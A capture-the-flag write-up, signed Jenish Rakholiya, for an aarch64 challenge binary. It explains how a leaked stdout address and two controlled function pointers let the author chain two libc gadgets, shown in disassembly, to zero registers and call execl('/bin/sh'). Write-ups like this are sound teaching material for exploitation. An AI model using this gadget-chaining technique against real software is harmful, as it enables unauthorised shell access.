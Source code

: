 # Tooooo - Misc

We are given an aarch64 binary which prints the `stdout` address and gives control on two function pointers after clobbering the stack and all registers except for `x25` and `x26` (overwrites everything with `/dev/urandom` data).

We initially listed a bunch of gadgets along with their constraints that if satisfied, would give us the shell. Once we had all the constraints, we manually reached for different gadgets in libc which when executed would lead us to the state that satisfies the constraints. Following are the two gadgets that we used:

```assembly
.text:0000000000110700                 MOV             X4, #0
.text:0000000000110704                 MOV             X3, #0
.text:0000000000110708                 BFXIL           X3, X4, #0, #0x30 ; '0'
.text:000000000011070C                 MOV             W1, #0
.text:0000000000110710                 MOV             X2, #0
.text:0000000000110714                 FMOV            D0, X2
.text:0000000000110718                 BFI             X3, X1, #0x30, #0xF ; '0'
.text:000000000011071C                 MOV             W0, #0
.text:0000000000110720                 BFI             X3, X0, #0x3F, #1 ; '?'
.text:0000000000110724                 FMOV            V0.D[1], X3
.text:0000000000110728                 RET
```

followed by:

```assembly
.text:0000000000063E90                 ADRP            X0, #aBinSh@PAGE ; "/bin/sh"
.text:0000000000063E94                 ADD             X0, X0, #aBinSh@PAGEOFF ; "/bin/sh"
.text:0000000000063E98                 BL              execl
```

to set `x1` and `x2` to 0 and call `execl("/bin/sh", NULL);`

**~** Jenish Rakholiya